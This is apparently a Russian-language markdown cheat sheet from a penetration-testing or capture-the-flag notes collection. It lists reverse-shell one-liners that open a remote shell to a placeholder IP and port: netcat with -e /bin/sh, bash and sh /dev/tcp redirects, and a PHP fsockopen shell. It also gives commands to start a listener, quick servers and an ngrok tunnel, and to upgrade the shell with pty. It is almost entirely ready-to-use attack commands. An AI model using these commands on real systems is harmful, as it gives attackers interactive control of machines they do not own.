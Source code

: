 # Сreat conect

слушать порт:
```bash
nc -lvnp {port}
```
подключиться к прослушиваемому порту:
или
```bash
nc -e /bin/sh {IP} {port}
```
или
```bash
bash -i >& /dev/tcp/{IP}/{port} 0>&1
```
или
```sh
sh -i >& /dev/tcp/{IP}/{port} 0>&1
```
или
```bash
bash -c "bash -i >& /dev/tcp/{your_IP}/{your_listeniing_port} 0>&1"
```
или
```php
php -r '$sock=fsockopen({ip},{port});exec("/bin/sh -i <&3 >&3 2>&3");'
```
Реверс-шелл можно также организовать при помощи команды:
```bash
reverse_shell_listener {port}
```
# Create server
php
```bash
php -S {ip}:{port}
```
python
```bash
python3 -m http.server {port}
```
ngrok
```bash
// в одном терминале сначала поднимается сервер
php -S 127.0.0.1:1234
```

```bash
// в другом ngrok
ngrok http 9001
```
# Upadate shell
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
